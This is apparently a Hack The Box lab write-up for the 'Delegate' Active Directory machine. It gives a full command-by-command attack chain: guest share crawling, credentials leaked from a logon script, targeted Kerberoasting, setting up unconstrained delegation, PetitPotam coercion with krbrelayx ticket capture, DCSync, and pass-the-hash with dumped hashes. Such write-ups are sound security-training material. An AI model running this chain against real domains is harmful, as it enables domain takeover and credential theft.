


> [!info] Machine Info
> - **Target:** `10.129.234.69` (`DC1.delegate.vl`)
> - **Domain:** `delegate.vl`
> - **Difficulty:** Medium
> - **OS:** Windows Server 2022 (Domain Controller)

## Synopsis

Delegate is a medium Windows Active Directory box. The Guest account is enabled, which lets us read a NETLOGON logon script containing hardcoded credentials. Those credentials give us a `GenericWrite` right over another user account, which we abuse to make that account Kerberoastable and crack its password. That account holds `Remote Management Users` membership (WinRM) and, more importantly, `SeEnableDelegationPrivilege`, which we abuse to configure Unconstrained Delegation on an attacker-created computer account. From there we coerce the Domain Controller into authenticating to us (PetitPotam), capture its TGT with krbrelayx, and use it to DCSync the Administrator's hash straight to full domain compromise.

---

## 1. Recon

I start every box the same way — a full TCP port sweep to make sure I don't miss anything, followed by a targeted `-sC -sV` scan on the ports that came back open.

```bash
cd HTB/delegate
export target=10.129.234.69

nmap -p- $target -v --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 \
  -oN nmap_ports.txt && sleep 5 && \
  nmap $target -sV -sC -v -oN nmap_sVsC.txt
```

The results are a dead giveaway for a Domain Controller: Kerberos on 88, LDAP on 389/3268, SMB on 445, and WinRM on 5985. The hostname resolves to `DC1` in the `delegate.vl` domain, so I add that to my hosts file so every AD tool I run afterward can resolve names properly instead of just talking to a bare IP.

```bash
sudo nano /etc/hosts
```

I also ran a quick `enum4linux` pass just to see if it picks up anything extra over SMB/RPC that my other tools might miss.

```bash
enum4linux -a -u "guest" -p "" $target
```

---

## 2. SMB Enumeration as Guest

The interesting thing here is that the **Guest** account is enabled. That's worth checking immediately, because on a real AD environment this is rare and usually means someone left a share world-readable.

```bash
netexec smb $target -u guest -p '' --shares
```

This confirms Guest can browse shares, including `NETLOGON`. Before diving into that share directly, I like to squeeze as much user/group info as possible out of an unauthenticated or guest session — RID cycling and direct user listing both work here:

```bash
netexec smb $target -u 'guest' -p '' --rid-brute
netexec smb $target -u 'guest' -p '' --users
netexec ldap $target -u 'guest' -p '' --users
```

To avoid manually clicking through every share, I ran NetExec's `spider_plus` module, which recursively crawls every share Guest can read and drops a JSON report of every file it finds — a fast way to spot anything unusual without doing it by hand.

```bash
netexec smb $target -u guest -p '' -M spider_plus
cp /home/daryx/.nxc/modules/nxc_spider_plus/10.129.234.69.json .
cat /home/daryx/.nxc/modules/nxc_spider_plus/10.129.234.69.json
```

That report flagged a file called `users.bat` sitting in `NETLOGON` — logon scripts are a classic spot for hardcoded creds, so I went and pulled it manually with `smbclient`:

```bash
smbclient -U 'guest%' -L //$target/NETLOGON
smbclient -U 'guest%' //$target/NETLOGON
```

Inside the interactive session I grabbed `users.bat` and dumped its readable strings:

```bash
strings users.bat
```

Jackpot — the script hardcodes a username and password (`A.Briggs:P4ssw0rd1#123`) used to map a backup drive. Whoever wrote this script never expected Guest to be able to read it.

---

## 3. Validating the Leaked Credentials

Before going further I wanted to know exactly what `A.Briggs` can and can't do. I checked SMB, WinRM, RDP, and tried a straight PsExec-style command execution:

```bash
netexec smb $target -u a.briggs -p 'P4ssw0rd1#123'
netexec smb $target -u a.briggs -p 'P4ssw0rd1#123' --shares
netexec winrm $target -u a.briggs -p 'P4ssw0rd1#123'
netexec rdp $target -u a.briggs -p 'P4ssw0rd1#123'
psexec.py delegate.vl/a.briggs:P4ssw0rd1#123@$target
```

None of these give a shell — `A.Briggs` isn't a local admin and can't WinRM or RDP in. So this account is a stepping stone, not the final foothold. Time to see what it *can* do inside the domain.

---

## 4. Mapping the Domain with BloodHound

With a valid low-privilege domain account, the obvious next move is to collect the full AD relationship graph and let BloodHound tell me where the privilege escalation paths are, rather than guessing.

I spun up BloodHound CE locally to have somewhere to load the data:

```bash
docker-compose pull && docker-compose up -d
docker-compose logs bloodhound | grep -i "set to"
docker-compose logs bloodhound | grep -i pass
```

Then collected everything using NetExec's built-in collector (much less friction than juggling a separate ingestor):

```bash
netexec ldap $target -u 'a.briggs' -p 'P4ssw0rd1#123' --bloodhound --collection All --dns-server $target
mv /home/daryx/.nxc/logs/DC1_10.129.234.69_2026-08-14_013159_bloodhound.zip .
```

After loading the zip into BloodHound and pivoting from `A.Briggs`, the graph shows exactly one useful edge: `A.Briggs` has **GenericWrite** over `N.Thompson`. And `N.Thompson` is a member of **Remote Management Users** — meaning if I can get control of that account, I get a WinRM session on the DC.



`GenericWrite` on a user object is one of the most flexible ACL abuses available: it lets me write to almost any non-protected attribute of that object, including `servicePrincipalName`. That means I can make `N.Thompson` kerberoastable on demand, even though it doesn't have an SPN by default.

---

## 5. Foothold — Targeted Kerberoasting via GenericWrite

Rather than manually setting the SPN, requesting the ticket, and cleaning up afterward, I used `targetedKerberoast.py`, which automates that whole "abuse GenericWrite to kerberoast" workflow in one shot.

```bash
wget https://raw.githubusercontent.com/ShutdownRepo/targetedKerberoast/main/targetedKerberoast.py
chmod +x targetedKerberoast.py
```

The script threw an LDAP filter error on first run — an invalid `:=` operator in its search filter — so I patched it to use the correct `=` syntax before trying again:

```bash
cp targetedKerberoast.py targetedKerberoast.py.bak
sed -i 's/(sAMAccountName:=%s)/(sAMAccountName=%s)/' targetedKerberoast.py
```

With the fix in place, I pointed it at `N.Thompson` using `A.Briggs`'s credentials:

```bash
python3 targetedKerberoast.py \
  -v \
  -d "delegate.vl" \
  -u "a.briggs" \
  -p 'P4ssw0rd1#123' \
  --dc-ip $target \
  --request-user "N.Thompson"
```

It temporarily assigns an SPN to `N.Thompson`, requests a Kerberos service ticket for it (which comes back encrypted with `N.Thompson`'s NTLM hash), and hands me a crackable `$krb5tgs$` hash. I saved that off and threw `rockyou.txt` at it with John:

```bash
nano hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

It cracked almost instantly, giving up the plaintext password `KALEB_2341`. A quick check confirms it's valid and, as expected from the BloodHound graph, gets me a `Pwn3d!` on WinRM:

```bash
netexec smb $target -u N.Thompson -p KALEB_2341
netexec winrm $target -u N.Thompson -p KALEB_2341
```

From there it's a straightforward shell:

```bash
evil-winrm -i $target -u N.Thompson -p KALEB_2341
```

That gets me the user flag at `C:\Users\N.Thompson\Desktop\user.txt`.

---

## 6. Privilege Enumeration

Now that I have a foothold as a real domain user, I wanted to check what delegation-related rights or misconfigurations already exist in the domain, and what my own privileges look like.

```bash
netexec ldap "$target" -u 'N.Thompson' -p 'KALEB_2341' -d 'delegate.vl' --find-delegation
netexec ldap "$target" -u 'N.Thompson' -p 'KALEB_2341' -d 'delegate.vl' --trusted-for-delegation
netexec ldap "$target" -u 'N.Thompson' -p 'KALEB_2341' -d 'delegate.vl' --users
netexec ldap "$target" -u 'N.Thompson' -p 'KALEB_2341' -d 'delegate.vl' -M maq
netexec ldap "$target" -u 'N.Thompson' -p 'KALEB_2341' -d 'delegate.vl' --computers
```

Nothing pre-existing to abuse, but the `maq` check confirms the default machine account quota (10) is in place, meaning any domain user — including me — can add up to 10 computer objects to AD. Inside the Evil-WinRM shell, checking my own token privileges is the real turning point:

```powershell
whoami /priv
```

`N.Thompson` holds `SeMachineAccountPrivilege` (expected, ties to the quota above) and, far more interestingly, `SeEnableDelegationPrivilege` — a highly sensitive right that lets its holder flip the `TRUSTED_FOR_DELEGATION` flag on any AD object's `userAccountControl` attribute. That's effectively "you can configure Unconstrained Delegation on anything," which is a well-known path to full domain compromise if there's any way to coerce a privileged account (like the DC's own machine account) into authenticating to something I control.

---

## 7. Privilege Escalation — Building the Unconstrained Delegation Trap

The plan: create a computer account I fully control, mark it as trusted for Unconstrained Delegation using my `SeEnableDelegationPrivilege`, then trick the Domain Controller into authenticating to it. Since Unconstrained Delegation forwards a full copy of whatever TGT authenticates to it, coercing `DC1$` to log into my fake computer hands me the Domain Controller's own ticket — which I can then use to DCSync the entire domain.

First, the computer account, using my machine account quota:

```bash
impacket-addcomputer -dc-ip $target -computer-name pwn delegate.vl/N.Thompson:'KALEB_2341'
```

This creates `pwn$` and hands back a randomly generated password (`iRbLoIoT6ijmR8Rk4gEfx4QssNyhJ9pd`) that I now fully control.

Next, I flip the delegation flag on it using `SeEnableDelegationPrivilege`:

```bash
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host $target add uac 'pwn$' -f TRUSTED_FOR_DELEGATION
```

`pwn$` is now trusted for Unconstrained Delegation. But for a coercion attack to actually forward a Kerberos ticket to it (instead of falling back to NTLM), I need `pwn$` to have a proper DNS name and an SPN that the victim can request a service ticket for. That's where krbrelayx comes in — it bundles the DNS/SPN tooling and the listener that captures forwarded tickets.

```bash
git clone https://github.com/dirkjanm/krbrelayx/
cd krbrelayx
chmod +x dnstool.py
sudo cp dnstool.py /usr/bin
cd ..
```

I grabbed my VPN interface IP to know what to point the DNS record at:

```bash
ip a
```

Then added an A record so `pwn.delegate.vl` resolves to my box:

```bash
python3 dnstool.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -r pwn.delegate.vl -d 10.10.14.18 --action add $target
```

And added the `cifs/pwn` SPN to the `pwn$` computer object, so a client can request a Kerberos ticket for "connecting to a file share on pwn":

```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/pwn' -t 'pwn$' -dc-ip $target $target
```

Before moving on I double-checked both pieces actually landed — the SPN on the object, and the DNS record resolving correctly:

```bash
bloodyAD -d delegate.vl --dc-ip $target -u 'N.Thompson' -p 'KALEB_2341' get object 'pwn$' --attr 'servicePrincipalName'
dig pwn.delegate.vl @$target
```

To run the krbrelayx listener as `pwn$` without needing the plaintext password every time, I converted the generated password into its NTLM (MD4) hash so I can authenticate with pass-the-hash:

```bash
python3 -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4","iRbLoIoT6ijmR8Rk4gEfx4QssNyhJ9pd".encode("utf-16le")).digest()).decode())'
```

With the hash in hand, I started the listener. This spins up fake SMB/HTTP/LDAP/DNS servers acting as `pwn$`, and — because `pwn$` has Unconstrained Delegation enabled — automatically saves any TGT forwarded to it to disk:

```bash
python3 krbrelayx.py -hashes :a71b11022bc3ce3bcb66b547a8b47575
```

---

## 8. Coercing the Domain Controller

With everything set up, all that's left is to make the DC actually authenticate to `pwn$`. PetitPotam abuses the MS-EFSRPC interface to force a remote host to try to authenticate wherever you tell it — a classic NTLM-relay/coercion primitive, but here I'm using it purely to trigger Kerberos authentication back to my delegation trap.

```bash
wget https://raw.githubusercontent.com/topotam/PetitPotam/main/PetitPotam.py
chmod +x PetitPotam.py
sudo cp PetitPotam.py /usr/bin
```

```bash
PetitPotam.py -target-ip $target -u 'pwn$' -p 'iRbLoIoT6ijmR8Rk4gEfx4QssNyhJ9pd' pwn dc1.delegate.vl
```

This tells `dc1.delegate.vl` (the DC) to open a file over `\\pwn\...`, which forces the `DC1$` machine account to authenticate to `cifs/pwn`. Because that SPN sits on `pwn$`, and `pwn$` is trusted for Unconstrained Delegation, the DC's full TGT rides along with that authentication attempt — and my krbrelayx listener grabs it and writes it out as a `.ccache` file.

```bash
mv DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache ../
cd ..
```

---

## 9. DCSync and Full Domain Compromise

I now hold `DC1$`'s own Kerberos ticket. Domain Controllers have the replication rights needed to perform a DCSync, so I can use this captured ticket to impersonate the DC and ask itself to replicate the Administrator's secrets — a completely legitimate-looking AD replication request from the DC's own identity.

```bash
KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache impacket-secretsdump -just-dc-user Administrator -k dc1.delegate.vl
```

This dumps the Administrator's NT hash (`c32198ceab4cc695e65045562aa3ee93`) along with its Kerberos AES/DES keys. From there it's just pass-the-hash to a full admin shell:

```bash
evil-winrm -i $target -u Administrator -H c32198ceab4cc695e65045562aa3ee93
```

Root flag sitting at `C:\Users\Administrator\Desktop\root.txt` — full domain compromise.

---

#ActiveDirectory #HackTheBox #Kerberoasting #UnconstrainedDelegation #ACLAbuse #GenericWrite #PetitPotam #Krbrelayx #DCSync #WinRM #EvilWinRM #BloodHound #Medium #Writeup
